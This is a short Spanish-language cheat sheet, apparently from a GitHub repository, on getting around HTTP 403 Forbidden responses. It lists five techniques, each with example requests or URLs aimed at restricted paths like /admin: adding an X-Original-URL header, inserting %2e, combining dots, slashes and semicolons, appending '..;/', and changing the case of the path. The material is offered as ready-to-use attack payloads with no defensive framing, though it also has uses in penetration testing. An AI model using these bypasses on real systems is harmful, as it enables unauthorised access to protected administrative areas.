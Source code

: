 # Bypass 403 (Forbidden)

1 - Usando el header "X-Original-URL"

Respuesta del servidor

    GET /admin HTTP/1.1
    Host: host.com
    
Intenta este bypass

    GET /anything HTTP/1.1
    Host: host.com
    X-Original-URL: /admin
    
2 - Agregar %2e después de la primera barra inclinada
    
    http://host.com/admin => 403
    
Intenta este bypass    

    http://host.com/%2e/admin => 200
    
3 - Intente agregar un punto (.), una barra inclinada (/) y un punto y coma (;) en la URL

    http://target.com/admin => 403
    
Intenta este bypass

    http://host.com/secret/. => 200
    http://host.com//secret// => 200
    http://host.com/./secret/.. => 200
    http://host.com/;/secret => 200
    http://host.com/.;/secret => 200
    http://host.com//;//secret => 200
        
4 - Agregue "..;/" después del nombre del directorio 

    http://host.com/admin
    
Intenta este bypass

    http://host.com/admin..;/
    
5 - Intenta poner en mayúsculas la ruta en la url

    http://target.com/admin
    
Intenta este bypass

    http://host.com/aDmIN
